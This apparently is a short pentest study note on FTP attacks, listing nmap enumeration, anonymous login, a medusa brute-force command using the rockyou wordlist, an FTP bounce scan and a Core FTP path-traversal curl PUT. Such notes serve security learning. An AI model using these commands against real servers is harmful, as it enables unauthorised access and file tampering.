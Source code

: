 More ways to enumerate [FTP](obsidian://open?vault=Obsidian%20Vault&file=Footprinting%2FHOSTS%2FFTP)
```bash
# Enumeration
sudo nmap -sC -sV -p 21 192.168.2.142

# Anonymous Authentication
ftp 192.168.2.142
name: anonymous
password: #there is a space here

# Brute force attack
medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h [IP] -M ftp 

# FTP Bounce atttack
nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2

# Core FTP Exploitation
curl -k -X PUT -H "Host: <IP>" --basic -u <username>:<password> --data-binary "PoC." --path-as-is https://<IP>/../../../../../../whoops
```


